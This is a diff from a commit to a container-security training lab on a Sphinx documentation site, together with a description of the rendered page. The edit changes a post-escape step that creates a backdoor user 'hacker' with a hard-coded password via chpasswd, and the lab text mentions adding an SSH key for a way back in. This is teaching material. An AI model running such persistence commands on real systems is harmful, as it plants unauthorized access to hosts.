

Before and after one commit to JonZeolla/JonZeolla.github.io, a Sphinx documentation site: the page built from docs/labs/container-security-101.md, in a window 1280 px wide and 900 px high, scrolled down 16875 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update backdoor user setup

````diff
--- a/docs/labs/container-security-101.md
+++ b/docs/labs/container-security-101.md
@@ -952,18 +952,15 @@ anything juicy, and maybe drop a quick backdoor for ourselves later:
 
 ```{code-block} console
 ---
-emphasize-lines: 5,7,9
+emphasize-lines: 1
 ---
 $ ls -al /home # We can now see /home/ on the host filesystem
 total 4
 drwxr-xr-x  3 root     root       22 Nov 15 17:28 .
 dr-xr-xr-x 18 root     root      257 Nov 15 17:28 ..
 drwx------ 14 ec2-user ec2-user 4096 Nov 26 14:54 ec2-user
-$ sudo useradd hacker
-$ sudo passwd hacker
-New password:
-Retype new password:
-passwd: password updated successfully
+$ useradd hacker
+$ echo 'hacker:newpassword' | chpasswd
 ```
 
 Finally, let's drop our public key into the current user's `~/.ssh/authorized_keys` file so there's another way back in.
````
